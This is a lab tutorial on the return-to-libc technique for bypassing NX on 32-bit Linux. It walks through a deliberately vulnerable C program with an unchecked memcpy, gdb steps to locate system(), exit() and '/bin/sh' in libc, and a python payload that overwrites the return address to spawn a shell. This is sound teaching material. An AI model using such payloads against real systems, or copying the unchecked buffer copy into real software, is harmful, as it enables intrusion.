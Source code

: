 # Return-to-libc

The purpose of this lab is to famialiarize with a ret-to-libc technique which is used to exploit buffer overflow vulnerabilities on systems where stack memory is protected with `no execute` \(NX\) bit.

## Overview

{% hint style="info" %}
The ret-to-libc technique is applicable to \*nix systems.
{% endhint %}

In standard stack-based buffer overflow, an attacker can write their shellcode into the vulnerable program's stack and execute it from there. 

If the vulnerable program's stack is protected \(NX bit is set\), the attacker can no longer execute their shellcode from the vulnerable program's stack. Ret-to-libc technique allows the attacker to bypass the NX bit protection and subvert the vulnerable program by re-using existing executable code from the standard C library shared object \(/lib/i386-linux-gnu/libc-\*.so\), that is loaded into the vulnerable program's virtual memory space.

At a high level, ret-to-libc technique is similar to a regular stack overflow, with one key difference - instead of overwritting the return address with address of the shellcode when exploiting a regular stack overflow with no stack protection, in ret-to-libc case, the return address is overwritten with a memory address that points to the function `system(const char *command)` that lives in the `libc`, so that when the overflowed program wants to return, it jumps to the `system()` function and executes the shell command that was passed to the function as `*command` argument. In our case, we want the vulnerable program to spawn a shell, so we will make it call `system("/bin/sh")`.

### Diagram

Below is a simplified diagram of the ret-to-libc exploitation process that we will go through in this lab:

![High level overview of ret-to-libc technique for a 32-bit vulnerable program](../../../.gitbook/assets/image%20%28834%29.png)

Points to note in the overflowed buffer:

1. EIP is overwritten with address of the `system()` function located inside `libc`;
2. Right after the address of `system()`, there's address of the function `exit()`, so that once `system()` `returns`, the vulnerable program can gracefully exit by jumping to the `exit()`;
3. Right after the address of `exit()`, there's a pointer to a memory location that contains the string `/bin/sh` which we want the `system()` to execute.

### Stack Layout

From the above diagram \(after overflow\), if you are wondering why, when looking from top to bottom, the stack's contents are:

1. Address of the `/bin/sh` string
2. Address of the `exit()` function
3. Address of the `system()` function

...we need to remember what happens with the stack when a function is called:

1. Function arguments are pushed on to the stack in reverse order, meaning the left-most argument will be pushed last;
2. Return address, telling the program where to return after the function completes, is pushed;
3. EBP is pushed;
4. Local variables are pushed.

With the above, it should now be clear why the overflowed stack looks that way - essentially, we manually built a stack frame for the `system()` function and pushed its argument - address that contains a string `/bin/sh` and a return address, which the vulnerable program should jump to once the `system()` call completes, which in our case is the address of the function `exit()`.

## Vulnerable Program

The below is our vulnerable program for this lab, which takes user input as a commandline argument and copies it to a memory location inside the program, without checking if the user supplied buffer is bigger than the allocated memory:

{% code title="vulnerable.c" %}
```cpp
#include <stdio.h>

int main(int argc, char *argv[])
{
    char buf[8];
    memcpy(buf, argv[1], strlen(argv[1]));
    printf(buf);
}
```
{% endcode %}

Let's compile it:

```csharp
cc vulnerable.c -mpreferred-stack-boundary=2 -o vulnerable
```

![Vulnerable program compiled](../../../.gitbook/assets/image%20%28836%29.png)

Let's execute it via gdb \(1\), set a breakpoint on the function `main` \(2\) and continue the execution \(3\):

```text
gdb vulnerable anything
b main
r
```

![Spawn vulnerable program with gdb, getting our hands dirty](../../../.gitbook/assets/image%20%28851%29.png)

Additionally, we can confirm our binary has various protections enabled for it with the key one for this lab being the NX:

```text
checksec
```

![Protections overview for the vulnerable program](../../../.gitbook/assets/image%20%28837%29.png)

## Finding system\(\)

By doing:

```csharp
p system
```

We can see, that the function `system` resides at memory location `0xb7e13870` inside the vulnerable program in the `libc` library:

![system\(\) is located at 0xb7e13870](../../../.gitbook/assets/image%20%28839%29.png)

## Finding exit\(\)

The same way, we can find that exit resides at `0xb7e06c30`:

![exit\(\) is located at 0xb7e06c30](../../../.gitbook/assets/image%20%28847%29.png)

## Finding /bin/sh

### Inside libc

We want the vulnerable program to call `system("bin/bash")` and spawn a shell for us. 

We need to remember that `system` function is declared as `system(const char *command)`, meaning if we want to invoke it, we need to pass it a memory address that contains the string that we want it to execute \(which in our case is the `/bin/bash`\). We need to find a memory location inside the vulnerable program that points to `/bin/bash` and luckily, it's known that the `libc` contains that string, so let's find it.

Let's see the memory layout of the vulnerable program and look for the start address of the where the `libc` is loaded to:

```csharp
gdb-peda$ info proc map
```

Below shows that `/lib/i386-linux-gnu/libc-2.27.so` starts at `0xb7dd6000`:

![libc is loaded at 0xb7dd6000](../../../.gitbook/assets/image%20%28854%29.png)

We can now use the `strings` utility to find the offset of string `/bin/sh` relative to the start of the `libc` binary and see that it is at `0x17c968`:

```csharp
strings -a -t x /lib/i386-linux-gnu/libc-2.27.so | grep "/bin/sh"
```

![/bin/sh is at offset 0x17c968 from the start of libc](../../../.gitbook/assets/image%20%28843%29.png)

...which means, that in our vulnerable program, at address `0xb7f52968` \(0xb7dd6000 + 17c968\), we should see the string `/bin/sh`, so let's test it:

```csharp
x/s 0xb7f52968
```

Below shows that `/bin/sh` indeed lives at `0xb7f52968`:

![/bin/sh inside vulnerable program is located at 0xb7f52968](../../../.gitbook/assets/image%20%28844%29.png)

### Inside SHELL Environment Variable

Additionally, we can find the location of the environment variable `SHELL=/bin/sh` on the vulnerable program's stack:

```text
x/s 500 $esp
```

![](../../../.gitbook/assets/image%20%28849%29.png)

In the above screenshot, we can see that at `0xbffffeea` we have a string `SHELL=/bin/sh`. Since the we only need the address of the string `/bin/sh`, we know that `0xbffffeea + 6` \(because string `SHELL=` is 6 characters\) will give us the exact location we are looking for, which is `0xBFFFFEF0`:

![/bin/sh as an environment varialbe inside the vulnerable program at 0xBFFFFEF0](../../../.gitbook/assets/image%20%28850%29.png)

## Exploiting

Assuming we need to send 16 bytes of garbage to the vulnerable program before we can overwrite its return address, and make it jump to `system()` \(located at `0xb7e13870`, expressed as `\x70\x38\xe1\xb7` due to little-endianness\), which will execute `/bin/sh` that's present in  `0xb7f52968` \(expressed as `\x68\x29\xf5\xb7`\), we can execute the exploit like so:

```c
r `python -c 'print("A"*16 + "\x70\x38\xe1\xb7" + "\x30\x6c\xe0\xb7" + "\x68\x29\xf5\xb7")'`
```

...and observe the `/bin/sh` get executed:

![Vulnerable program spawns a /bin/sh shell](../../../.gitbook/assets/image%20%28842%29.png)

## References

[https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf)

[https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf](https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf)

